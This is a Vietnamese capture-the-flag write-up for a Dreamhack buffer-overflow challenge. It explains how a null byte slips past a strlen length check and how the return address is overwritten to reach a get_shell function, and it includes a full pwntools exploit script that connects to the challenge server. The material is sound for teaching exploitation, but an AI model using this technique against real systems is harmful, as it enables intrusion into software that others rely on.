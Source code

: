 # Decription
[![](images/decription.png)](https://dreamhack.io/wargame/challenges/1860)
# Source

![](images/main.png)
![](images/check.png)
![](images/win.png)


# Problem

Trong hàm main v5 khai báo với kích thước là 48 bytes nhưng scanf lại không kiểm soát đầu vào.

-> bof

Hàm check có strlen() kiểm tra số lượng đầu vào. Nếu > 15 thì exit().


Nhưng hàm strlen() chỉ kiểm tra đến khi nào gặp bytes null sẽ dừng lại -> Vẫn có thể overflow.

Mục tiêu là ret2win nên cần tính offset đên ret.

# Solve

Ta có thể dùng gdb để tính hoặc tính luôn trên ida.

```c
-0000000000000030     _BYTE var_30;
-000000000000002F     // padding byte
-000000000000002E     // padding byte
-000000000000002D     // padding byte
-000000000000002C     // padding byte
-000000000000002B     // padding byte
-000000000000002A     // padding byte
-0000000000000029     // padding byte
-0000000000000028     // padding byte
-0000000000000027     // padding byte
-0000000000000026     // padding byte
-0000000000000025     // padding byte
-0000000000000024     // padding byte
-0000000000000023     // padding byte
-0000000000000022     // padding byte
-0000000000000021     // padding byte
-0000000000000020     // padding byte
-000000000000001F     // padding byte
-000000000000001E     // padding byte
-000000000000001D     // padding byte
-000000000000001C     // padding byte
-000000000000001B     // padding byte
-000000000000001A     // padding byte
-0000000000000019     // padding byte
-0000000000000018     // padding byte
-0000000000000017     // padding byte
-0000000000000016     // padding byte
-0000000000000015     // padding byte
-0000000000000014     // padding byte
-0000000000000013     // padding byte
-0000000000000012     // padding byte
-0000000000000011     // padding byte
-0000000000000010     // padding byte
-000000000000000F     // padding byte
-000000000000000E     // padding byte
-000000000000000D     // padding byte
-000000000000000C     // padding byte
-000000000000000B     // padding byte
-000000000000000A     // padding byte
-0000000000000009     // padding byte
-0000000000000008     // padding byte
-0000000000000007     // padding byte
-0000000000000006     // padding byte
-0000000000000005     // padding byte
-0000000000000004     // padding byte
-0000000000000003     // padding byte
-0000000000000002     // padding byte
-0000000000000001     // padding byte
+0000000000000000     _QWORD __saved_registers;
+0000000000000008     _UNKNOWN *__return_address;
+0000000000000010
+0000000000000010 // end of stack variables
```
var_30 đến ret là 0x38 bytes

```c
payload = b'a' *15 + b'\x00'
payload = payload.ljust(56, b'B')
payload += p64(0x0000000000401273)  //get_shell address
```
![](images/flag.png)

# Full script

```c
#!/usr/bin/env python3

from pwn import *

exe = ELF('block_bof', checksec=False)
# libc = ELF('', checksec=False)
context.binary = exe

info = lambda msg: log.info(msg)
s = lambda data, proc=None: proc.send(data) if proc else p.send(data)
sa = lambda msg, data, proc=None: proc.sendafter(msg, data) if proc else p.sendafter(msg, data)
sl = lambda data, proc=None: proc.sendline(data) if proc else p.sendline(data)
sla = lambda msg, data, proc=None: proc.p.sendlineafter(msg, data) if proc else p.sendlineafter(msg, data)
sn = lambda num, proc=None: proc.send(str(num).encode()) if proc else p.send(str(num).encode())
sna = lambda msg, num, proc=None: proc.sendafter(msg, str(num).encode()) if proc else p.sendafter(msg, str(num).encode())
sln = lambda num, proc=None: proc.sendline(str(num).encode()) if proc else p.sendline(str(num).encode())
slna = lambda msg, num, proc=None: proc.sendlineafter(msg, str(num).encode()) if proc else p.sendlineafter(msg, str(num).encode())
def GDB():
    if not args.REMOTE:
        gdb.attach(p, gdbscript='''

b* 0x0000000000401388
b* 0x00000000004012ab
b* 0x00000000004013bd
        c
        ''')
        input()


if args.REMOTE:
    p = remote('host3.dreamhack.games', 19236)
else:
    p = process([exe.path])
# GDB()

payload = b'a' *15 + b'\x00'
payload = payload.ljust(56, b'B')
payload += p64(0x0000000000401273)
sla(b'name??\n', b'\x00'*10)
sla(b'commnet : ', payload)
p.interactive()

```
